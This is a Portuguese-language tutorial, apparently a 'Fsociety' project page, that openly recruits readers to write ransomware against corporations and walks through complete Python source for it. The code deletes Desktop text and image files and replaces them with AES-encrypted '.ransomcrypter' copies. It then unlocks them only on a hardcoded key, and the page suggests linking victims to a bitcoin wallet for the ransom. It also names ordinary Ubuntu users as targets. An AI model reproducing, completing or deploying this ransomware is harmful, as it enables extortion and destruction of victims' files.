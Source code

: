 # Ransomware

![Ransomware%202fa56671e4794d728bb76fa1b1891b1d/fsociety_brasil_no_ar_por_mais_1_ano-618139.jpg](Ransomware%202fa56671e4794d728bb76fa1b1891b1d/fsociety_brasil_no_ar_por_mais_1_ano-618139.jpg)

Venha ajudar a Fsociety criando novos ransomwares para destruirmos as grande corporações.

1° passo:
Baixe todas os módulos python que vamos utilizar, depois leia brevemente a documentação para ter noção do que está acontecendo. 

Instalação:

```jsx
pip install "módulo"
```

Módulos utilizados:

```jsx
import os
import glob
import time
import pyaes
from pathlib import Path
```

os:  Este módulo fornece uma maneira simples de usar funcionalidades que são dependentes de sistema operacional. Se você quiser ler ou escrever um arquivo.

glob: O módulo glob encontra todos os nomes de caminho que correspondem a um padrão especificado de acordo com as regras usadas pelo shell Unix.

time: Esse módulo provê várias funções relacionadas à tempo.

pyaes: O módulo pyaes gera uma criptografia baseada em AES.

pathlib: Este módulo oferece classes que representam caminhos de sistema de arquivos com semântica apropriada para diferentes sistemas operacionais.

2° passo:

Criar uma variável que vai definir o tipo de arquivo que você vai criptografar durante o ataque.

```jsx
lista_arq = ["*.txt", "*.png"] 
```

3° passo:

Definir a pasta que o pathlib vai começar a vasculhar os arquivos.

```jsx
try:
    desktop = Path.home() / "Desktop"
except Exception:
    pass

os.chdir(desktop)
# Altera o diretório de trabalho atual para path.
```

4° passo:

Fazer uma função para criptografar os arquivos

```jsx
def criptografando():
    for files in lista_arq: 
		#for para passar por todos os arquivos e para nos que batem com lista_arq
        for format_file in glob.glob(files):
				#Retorna uma lista nomes de caminho que correspondem a pathname
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')
            file_data = f.read()
            f.close()
						#abre o pasta e le os arquivos em Binario

            os.remove(f'{desktop}\\{format_file}')
						# deleta o arquivo encontrado 
            key = b"1ab2c3e4f5g6h7i8"
						# define a chave de criptografia como 16 bytes
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

            # Salvando arquivo novo (.ransomcrypter)

            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
```

5° passo:

Fazer uma função de decriptografia:

```jsx
def descrypt(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes  # 16 bytes key - change for your key
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]  # Path to drop file

            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
```

6° passo:

Definir a forma como você vai receber o dinheiro para dar a chave de decriptografia para a vitima.

```jsx
if __name__ == '__main__':
    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':
            descrypt(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida!!!')
```

Sugestões 

Módulos: 

```jsx
webbrowser
você pode direcionar direto para um site de bitcoin com o codigo da sua carteira
de bitcoin, facilitando para a vitima pagar o "resgate" de dados
```

Cenário:
O código foi pensado para criptografar todos os arquivos na área de trabalho de maquinas com sistema operacional ubuntu, pois usuários comuns costumam salvar tudo na área de trabalho.